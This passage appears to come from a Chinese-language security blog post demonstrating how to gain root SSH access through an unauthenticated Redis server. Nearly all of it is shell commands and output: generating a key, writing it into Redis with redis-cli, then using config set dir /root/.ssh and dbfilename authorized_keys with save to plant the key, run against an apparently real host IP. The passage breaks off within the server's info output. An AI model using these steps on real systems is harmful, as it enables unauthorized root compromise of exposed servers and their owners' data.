|==.= .           |
|+. .o            |
+-----------------+

root@kali:~/.ssh# ls
id_rsa  id_rsa.pub</pre>
<a href="http://b404-wordpress.stor.sinaapp.com/uploads/2015/11/1.jpg"><img class="alignnone size-medium wp-image-144" title="1" src="http://b404-wordpress.stor.sinaapp.com/uploads/2015/11/1-300x216.jpg" alt="" width="300" height="216" /></a>

0x02 将公钥写入文本中:
<pre lang="python" line="1" escaped="true">root@kali:~/.ssh# (echo -e "\n\n"; cat id_rsa.pub;echo -e "\n\n")&gt;foo.txt

root@kali:~/.ssh# ls
foo.txt  id_rsa  id_rsa.pub</pre>
<a href="http://b404-wordpress.stor.sinaapp.com/uploads/2015/11/5.jpg"><img class="alignnone size-medium wp-image-148" title="5" src="http://b404-wordpress.stor.sinaapp.com/uploads/2015/11/5-300x14.jpg" alt="" width="300" height="14" /></a>

0x03 把公钥文本写入redis服务器:
<pre lang="python" line="1" escaped="true">root@kali:~/.ssh# cat foo.txt | redis-cli -h 目标IP -x set pwn
OK</pre>
<a href="http://b404-wordpress.stor.sinaapp.com/uploads/2015/11/3.jpg"><img class="alignnone size-medium wp-image-146" title="3" src="http://b404-wordpress.stor.sinaapp.com/uploads/2015/11/3-300x34.jpg" alt="" width="300" height="34" /></a>

0x04 登入redis服务器,进入/root/.ssh目录写入公钥,并保存:
<pre lang="python" line="1" escaped="true">root@kali:~/.ssh# redis-cli -h 37.220.7.3
redis xxxxxxx:6379&gt; keys *
1) "pwn"
(0.51s)
redis xxxxxxxx:6379&gt; get dir
(nil)
redis xxxxxxxx:6379&gt; config get dir
1) "dir"
2) "/root/.ssh"
(1.81s)
redis xxxxxxxx:6379&gt; config set dbfilename ""authorized_keys
Invalid argument(s)
redis xxxxxxxx:6379&gt; config set dbfilename "authorized_keys"
OK
(0.80s)
redis xxxxxxxx:6379&gt; save
OK
redis xxxxxxxx:6379&gt; info
# Server
redis_version:2.8.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:e04f82ee9f1e3190
redis_mode:standalone
os:Linux 3.2.0-4-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
gcc_version:4.7.2
process_id:4224
run_id:fa3a75b01cc7bc57724c25ccad9da30562369ea7
tcp_port:6379
uptime_in_seconds:34244800
uptime_in_days:396
hz:10
lru_clock:48019
config_file:/usr/bin/redis/redis.conf
